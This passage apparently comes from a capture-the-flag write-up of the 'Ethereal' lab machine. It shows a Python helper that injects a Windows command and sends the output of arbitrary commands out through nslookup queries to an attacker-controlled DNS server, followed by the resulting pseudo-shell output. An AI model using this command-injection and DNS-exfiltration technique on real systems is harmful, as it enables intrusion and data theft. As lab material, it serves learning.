     
    
    PRIVILEGES INFORMATION
    ----------------------
    Privilege Name Description State
    ============================= ==================================== ========
    SeShutdownPrivilege Shut down the system Disabled
    SeChangeNotifyPrivilege Bypass traverse checking Enabled
    SeUndockPrivilege Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
    SeTimeZonePrivilege Change the time zone Disabled
    SeTimeZonePrivilege Change the time zone Disabled
    

I lose spacing, `/`, and any line with `..` in it. But other than that, it’s
pretty solid.

### Updating Command Sending

Now I just need to update `default()` to generate the command string and send
it. I’ll need to start with a `&` to add another command, then put my loop:

    
    
     55     def default(self, args):
     56         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
     57         self.send_post(command)
    

### Double Replies

What I have now kind of works, but it’s printing everything twice:

    
    
    ethereal> whoami
    etherealalan
    etherealalan
    ethereal> dir \
    Volume in drive C has no label.
    Volume in drive C has no label.
    Volume Serial Number is FAD9-1FD5
    Volume Serial Number is FAD9-1FD5
    Directory of c:
    Directory of c:
    07/07/2018 09:57 PM <DIR> Audit
    07/07/2018 09:57 PM <DIR> Audit
    06/30/2018 10:10 PM <DIR> inetpub
    06/30/2018 10:10 PM <DIR> inetpub
    06/26/2018 05:51 AM <DIR> Program Files
    06/26/2018 05:51 AM <DIR> Program Files
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/05/2018 09:38 AM <DIR> Users
    07/05/2018 09:38 AM <DIR> Users
    07/01/2018 09:57 PM <DIR> Windows
    07/01/2018 09:57 PM <DIR> Windows
    0 File(s) 0 bytes
    0 File(s) 0 bytes
    6 Dir(s) 15,415,119,872 bytes free
    6 Dir(s) 15,415,119,872 bytes free
    